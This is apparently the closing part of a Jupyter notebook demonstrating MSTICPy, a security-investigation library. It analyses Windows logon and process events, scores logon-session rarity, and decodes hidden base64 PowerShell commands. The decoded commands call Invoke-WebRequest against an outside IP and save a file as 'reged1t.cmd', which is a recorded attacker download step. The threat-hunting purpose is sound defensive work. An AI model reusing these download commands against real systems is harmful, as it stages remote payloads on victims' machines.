6,8ecf8077-cf51-4820-aadd-14040956f35d,CONTOSO\RonHD,4624,2021-05-04 08:10:00.207000+00:00,f6638b82-98a5-4542-8bec-6bc0977f793f,VictimPc.Contoso.Azure,VICTIMPC$,CONTOSO,S-1-5-18,RonHD,CONTOSO,S-1-5-21-1661583231-2311428937-3957907789-1105,0x978185c3,Advapi,4,4 - Batch,Negotiate,,-,VICTIMPC,2021-05-04 08:10:00.207000+00:00,Success,-
7,8ecf8077-cf51-4820-aadd-14040956f35d,CONTOSO\RonHD,4624,2021-05-04 08:30:00.187000+00:00,f6638b82-98a5-4542-8bec-6bc0977f793f,VictimPc.Contoso.Azure,VICTIMPC$,CONTOSO,S-1-5-18,RonHD,CONTOSO,S-1-5-21-1661583231-2311428937-3957907789-1105,0x97b10f0a,Advapi,4,4 - Batch,Negotiate,,-,VICTIMPC,2021-05-04 08:30:00.187000+00:00,Success,-
8,8ecf8077-cf51-4820-aadd-14040956f35d,CONTOSO\RonHD,4624,2021-05-04 03:00:00.683000+00:00,f6638b82-98a5-4542-8bec-6bc0977f793f,VictimPc.Contoso.Azure,VICTIMPC$,CONTOSO,S-1-5-18,RonHD,CONTOSO,S-1-5-21-1661583231-2311428937-3957907789-1105,0x949bc9f6,Advapi,4,4 - Batch,Negotiate,,-,VICTIMPC,2021-05-04 03:00:00.683000+00:00,Success,-
...,...,...,...,...,...,...,...,...,...,...,...,...,...,...,...,...,...,...,...,...,...,...,...
1416,8ecf8077-cf51-4820-aadd-14040956f35d,CONTOSO\RonHD,4624,2021-04-30 04:10:00.777000+00:00,f6638b82-98a5-4542-8bec-6bc0977f793f,VictimPc.Contoso.Azure,VICTIMPC$,CONTOSO,S-1-5-18,RonHD,CONTOSO,S-1-5-21-1661583231-2311428937-3957907789-1105,0x5b01f617,Advapi,4,4 - Batch,Negotiate,,-,VICTIMPC,2021-04-30 04:10:00.777000+00:00,Success,-
1417,8ecf8077-cf51-4820-aadd-14040956f35d,CONTOSO\RonHD,4624,2021-04-30 04:00:00.660000+00:00,f6638b82-98a5-4542-8bec-6bc0977f793f,VictimPc.Contoso.Azure,VICTIMPC$,CONTOSO,S-1-5-18,RonHD,CONTOSO,S-1-5-21-1661583231-2311428937-3957907789-1105,0x5ae733e2,Advapi,4,4 - Batch,Negotiate,,-,VICTIMPC,2021-04-30 04:00:00.660000+00:00,Success,-
1420,8ecf8077-cf51-4820-aadd-14040956f35d,CONTOSO\RonHD,4624,2021-04-30 01:00:00.403000+00:00,f6638b82-98a5-4542-8bec-6bc0977f793f,VictimPc.Contoso.Azure,VICTIMPC$,CONTOSO,S-1-5-18,RonHD,CONTOSO,S-1-5-21-1661583231-2311428937-3957907789-1105,0x590e0ad9,Advapi,4,4 - Batch,Negotiate,,-,VICTIMPC,2021-04-30 01:00:00.403000+00:00,Success,-
1425,8ecf8077-cf51-4820-aadd-14040956f35d,CONTOSO\RonHD,4624,2021-04-30 01:10:00.460000+00:00,f6638b82-98a5-4542-8bec-6bc0977f793f,VictimPc.Contoso.Azure,VICTIMPC$,CONTOSO,S-1-5-18,RonHD,CONTOSO,S-1-5-21-1661583231-2311428937-3957907789-1105,0x5928d6e3,Advapi,4,4 - Batch,Negotiate,,-,VICTIMPC,2021-04-30 01:10:00.460000+00:00,Success,-


<br>
<h3 style="background-color: LightGray; padding: 5px">It's also a good idea to look at processes...</h3>

#### ...but which ones?

> Disclaimer - this data is captive (local) data from another host. Just to highlight some things

In [96]:
procs_df = entities.Host.LocalData.host_processes(host_name="MSTICAlertsWin1")
display(procs_df.head())
md(f"Total number of events: {len(procs_df)}", "bold")


,TenantId,Account,EventID,TimeGenerated,Computer,SubjectUserSid,SubjectUserName,SubjectDomainName,SubjectLogonId,NewProcessId,NewProcessName,TokenElevationType,ProcessId,CommandLine,ParentProcessName,TargetLogonId,SourceComputerId,TimeCreatedUtc,index
0,52b1ab41-869e-4138-9e40-2a4457f09bf0,WORKGROUP\MSTICAlertsWin1$,4688,2021-04-28 03:27:04.819482+00:00,MSTICAlertsWin1,S-1-5-18,MSTICAlertsWin1$,WORKGROUP,0x3e7,0x13c,C:\Program Files\Microsoft Monitoring Agent\Agent\Health Service State\ICT 2\CMF-64\DesiredState...,%%1936,0x2360,"""C:\Program Files\Microsoft Monitoring Agent\Agent\Health Service State\ICT 2\CMF-64/DesiredStat...",C:\Program Files\Microsoft Monitoring Agent\Agent\MonitoringHost.exe,0x0,263a788b-6526-4cdc-8ed9-d79402fe4aa0,2019-02-09 11:41:26.260,NaN
1,52b1ab41-869e-4138-9e40-2a4457f09bf0,WORKGROUP\MSTICAlertsWin1$,4688,2021-04-28 03:27:04.826482+00:00,MSTICAlertsWin1,S-1-5-18,MSTICAlertsWin1$,WORKGROUP,0x3e7,0x11a8,C:\Windows\System32\conhost.exe,%%1936,0x13c,\??\C:\Windows\system32\conhost.exe 0xffffffff -ForceV1,C:\Program Files\Microsoft Monitoring Agent\Agent\Health Service State\ICT 2\CMF-64\DesiredState...,0x0,263a788b-6526-4cdc-8ed9-d79402fe4aa0,2019-02-09 11:41:26.267,NaN
2,52b1ab41-869e-4138-9e40-2a4457f09bf0,WORKGROUP\MSTICAlertsWin1$,4688,2021-04-28 03:27:58.822482+00:00,MSTICAlertsWin1,S-1-5-18,MSTICAlertsWin1$,WORKGROUP,0x3e7,0x1850,C:\Windows\System32\WerFault.exe,%%1936,0x13c,C:\Windows\system32\WerFault.exe -u -p 316 -s 3020,C:\Program Files\Microsoft Monitoring Agent\Agent\Health Service State\ICT 2\CMF-64\DesiredState...,0x0,263a788b-6526-4cdc-8ed9-d79402fe4aa0,2019-02-09 11:42:20.263,NaN
3,52b1ab41-869e-4138-9e40-2a4457f09bf0,WORKGROUP\MSTICAlertsWin1$,4688,2021-04-28 03:32:03.359482+00:00,MSTICAlertsWin1,S-1-5-18,MSTICAlertsWin1$,WORKGROUP,0x3e7,0x250,C:\WindowsAzure\GuestAgent_2.7.41491.901_2019-01-14_202614\CollectGuestLogs.exe,%%1936,0x1994,"""CollectGuestLogs.exe"" -Mode:ga -FileName:C:\WindowsAzure\CollectGuestLogsTemp\710dc858-9c96-4df...",C:\WindowsAzure\GuestAgent_2.7.41491.901_2019-01-14_202614\WaAppAgent.exe,0x0,263a788b-6526-4cdc-8ed9-d79402fe4aa0,2019-02-09 11:46:24.800,NaN
4,52b1ab41-869e-4138-9e40-2a4457f09bf0,WORKGROUP\MSTICAlertsWin1$,4688,2021-04-28 03:32:03.372482+00:00,MSTICAlertsWin1,S-1-5-18,MSTICAlertsWin1$,WORKGROUP,0x3e7,0xcac,C:\Windows\System32\conhost.exe,%%1936,0x250,\??\C:\Windows\system32\conhost.exe 0xffffffff -ForceV1,C:\WindowsAzure\GuestAgent_2.7.41491.901_2019-01-14_202614\CollectGuestLogs.exe,0x0,263a788b-6526-4cdc-8ed9-d79402fe4aa0,2019-02-09 11:46:24.813,NaN


In [160]:
logon_session = nb.nblts.azsent.host.LogonSessionsRarity()
logon_rslt = logon_session.run(data=procs_df)

Extracting features......

,Account,SubjectLogonId,MeanRarity,MaxRarity,ProcessCount
12,MSTICAlertsWin1\ian,0x5d5af2,0.611111,1.000000,54
8,MSTICAlertsWin1\MSTICAdmin,0xbd57571,0.484735,1.000000,38
1,MSTICAlertsWin1\MSTICAdmin,0x109c408,0.432549,1.000000,10
4,MSTICAlertsWin1\MSTICAdmin,0x2e2017,0.408239,1.000000,33
0,-\-,0x3e7,0.350000,0.500000,20
6,MSTICAlertsWin1\MSTICAdmin,0x78225e,0.297775,0.500000,21
9,MSTICAlertsWin1\MSTICAdmin,0xbed1e13,0.297775,0.500000,21
2,MSTICAlertsWin1\MSTICAdmin,0x1e821b5,0.239992,0.500000,8
7,MSTICAlertsWin1\MSTICAdmin,0xab5a5ac,0.239992,0.500000,8
10,MSTICAlertsWin1\MSTICAdmin,0xc277459,0.236656,1.000000,6


Loading BokehJS ...

In [168]:
logon_rslt.process_tree(account="MSTICAlertsWin1\ian")

Loading BokehJS ...

In [144]:
enc_cmds = logon_rslt.processes_with_cluster.query("Account.str.contains('ian') and NewProcessName.str.contains('powershell')")

display(enc_cmds[["NewProcessName", "CommandLine"]])


,NewProcessName,CommandLine
20856,C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe,powershell.exe -nop -w hidden -encodedcommand SQBuAHYAbwBrAGUALQBXAGUAYgBSAGUAcQB1AGUAcwB0ACAAL...
20857,C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe,powershell.exe -nop -w hidden -encodedcommand SQBuAHYAbwBrAGUALQBXAGUAYgBSAGUAcQB1AGUAcwB0ACAAL...


In [145]:
for row in base64unpack.unpack_df(data=enc_cmds, column="CommandLine").itertuples():
    print(row.decoded_string)


I n v o k e - W e b R e q u e s t   - U r i   " h t t p : / / 3 8 . 7 5 . 1 3 7 . 9 : 9 0 8 8 / s t a t i c / e n c r y p t . m i n . j s ? s t a t u s = d o n e " 
I n v o k e - W e b R e q u e s t   - U r i   " h t t p : / / 3 8 . 7 5 . 1 3 7 . 9 : 9 0 8 8 / s t a t i c / e n c r y p t . m i n . j s "   - O u t F i l e   " r e g e d 1 t . c m d " 


---

<h1 style="border: 1px solid;background-color: LightGray; padding: 10px">Conclusion</h1>

<ul style="font=20px">
    <li>MSTICPy is a work in progress but has a broad collection of tools useful for Cyber investigators</li>
    <li>It is open source and free</li>
    <li>It is data platform independent</li>
    <li>We welcome contributions
        <ul>
            <li>Much of MSTICPy is extensible (data providers, TI providers, pivots funcs)</li>
            <li>We're especially keen on better support for data providers, new providers, queries</li>
        </ul>
</ul>
 

<h1 style="border: 1px solid;background-color: LightGray; padding: 10px">Come and watch the companion session</h1>

<h3>"MSTICPy - Coding challenges and solutions building a Python package for CyberSec"</h3>
Diving into coding challenges and solutions from building an extensible tool framework.
**Tomorrow - May 15, 1PM PST/4PM EST**

Topics: Pandas extensions, dynamically-created functions from config, pretty exceptions by
hooking Jupter exception handler, helpful reprs, pip extras and more.

<h1 style="border: 1px solid;background-color: LightGray; padding: 10px">Check out our PyCon Lab</h1>

# **TODO**
### &nbsp;&nbsp;&nbsp;&nbsp; TBD

<h1 style="border: 1px solid;background-color: LightGray; padding: 10px">Check out our Microsoft <i>Launch Space</i> TV session</h1>

Check out our one-hour Launch Space live broadcast on Microsoft Learn TV on **May 20 at 1PM PT**,
where we’ll dive deep into MSTICPy and it’s many uses! Special focus on extending MSTICPy.

More details and save-the-date at https://aka.ms/thelaunchspacemsticpy.

---

<h1 style="border: 1px solid;background-color: LightGray; padding: 10px">Resources</h1>

MSTICPy Documentation - https://msticpy.readthedocs.io<br>
GitHub repo - https://github.com/microsoft/msticpy<br>
Blog - https://msticpy.medium.com<br>

Sample notebooks:
- https://github.com/microsoft/msticpy/tree/master/docs/notebooks
- https://github.com/Azure/Azure-Sentinel-Notebooks


<h1 style="border: 1px solid;background-color: LightGray; padding: 10px">Contacts</h1>

Email - msticpy@microsoft.com<br>
Twitter - @ianhellen, @MSSPete (Pete Bryan) @AshwinPatil (Ashwin Patil)<br>
GitHub - @ianhelle (Note the missing last "n"\), @PeteBryan, @AshwinPatil<br>
LinkedIn - @ianhellen, @PeteBryan, @AshwinPatil